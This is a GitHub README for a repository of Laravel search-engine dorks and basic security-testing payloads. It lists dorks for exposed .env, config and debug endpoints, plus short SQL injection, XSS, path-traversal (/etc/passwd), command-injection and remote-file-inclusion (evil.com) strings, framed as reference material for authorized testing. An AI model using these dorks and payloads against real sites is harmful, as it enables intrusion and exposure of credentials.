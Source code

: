 # Laravel Dorks Repository

![Laravel](https://img.shields.io/badge/Laravel-Framework-red)

Welcome to the Laravel Dorks repository! This collection contains specific Laravel dorks, payloads, vulnerabilities, and insights into potential security vulnerabilities or weaknesses in websites built on the Laravel PHP Framework.

## Table of Contents
- [What is Laravel?](#what-is-laravel)
- [Examples of Laravel Dorks](#examples-of-laravel-dorks)
- [Laravel Vulnerabilities](#laravel-vulnerabilities)
- [Laravel Payloads](#laravel-payloads)
- [Understanding Laravel Dorks](#understanding-laravel-dorks)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)
- [License](#license)

## What is Laravel?

Laravel is a popular PHP Framework known for its elegant syntax and expressive, feature-rich development. However, like any framework, Laravel applications may be susceptible to various security vulnerabilities, especially if not implemented, maintained, or secured properly.

## Examples of Laravel Dorks

These Laravel-specific dorks aim to identify potential security loopholes or vulnerabilities in Laravel-based websites:

1. **Laravel Debug Mode Dork:** Identifies websites with Laravel debug mode enabled.

   ```
   inurl:/_ignition/execute-solution
   ```

2. **Laravel Environment File Disclosure Dork:** Searches for Laravel .env file disclosure.

   ```
   inurl:/.env
   ```

3. **Laravel Error Message Dork:** Reveals detailed error messages.

   ```
   inurl:/whoops
   ```

4. **Laravel Configuration File Dork:** Looks for Laravel configuration files.

   ```
   inurl:/config/database.php
   ```

5. **Laravel Storage Directory Dork:** Checks for exposed storage directories.

   ```
   inurl:/storage/framework/views
   ```

For additional Laravel-specific dorks and in-depth explanations, explore the contents within the [GDorks repository](https://github.com/Ishanoshada/GDorks/).

## Laravel Vulnerabilities

Laravel applications may be susceptible to various security vulnerabilities, including but not limited to:

- **SQL Injection:** Laravel can be vulnerable to SQL injection attacks, especially if user inputs are not properly sanitized.
- **Sensitive Data Exposure:** Exposure of .env, config, or storage files can lead to sensitive data exposure.
- **Cross-Site Scripting (XSS):** Insecure handling of user input can lead to XSS vulnerabilities.

## Laravel Payloads for Security Testing

Here are some common Laravel payloads that can be used for security testing, auditing, or demonstrating potential vulnerabilities:

1. **SQL Injection Payloads:**

   - `' OR 1=1--`
   - `1' OR '1' = '1'--`

2. **XSS Payloads:**

   - `<script>alert('XSS')</script>`
   - `<img src="javascript:alert('XSS')" />`

3. **Path Traversal Payloads:**

   - `../../../etc/passwd`
   - `../../../../../../etc/passwd%00`

4. **Remote File Inclusion Payloads:**

   - `http://evil.com/malicious.php`
   - `data://text/plain;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

5. **Command Injection Payloads:**

   - `; ls -la`
   - `| ls`

Please ensure you have proper authorization and permission before utilizing these payloads for security testing. Remember to act responsibly and ethically when testing Laravel applications for vulnerabilities.

## Understanding Laravel Dorks

Understanding Laravel dorks is crucial for assessing the security posture of Laravel-based websites. Recognizing these dorks allows for proactive measures to secure Laravel applications and prevent potential exploitation.

## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a rich resource containing a diverse collection of Laravel dorks, categorized folders, and comprehensive documentation covering various vulnerabilities and security insights related to Laravel Framework.

## How to Use This Repository

This repository is organized into folders, each containing specific Laravel dorks, payloads, and related information. Users can explore these folders to discover Laravel dorks and payloads of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are encouraged! If you have additional Laravel dorks, payloads, examples, or documentation to share, follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your Laravel dorks, payloads, or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the Laravel community.

Explore, learn, and contribute responsibly to secure Laravel applications.
Happy hunting for Laravel vulnerabilities, and

 remember to act responsibly and ethically when testing security vulnerabilities.
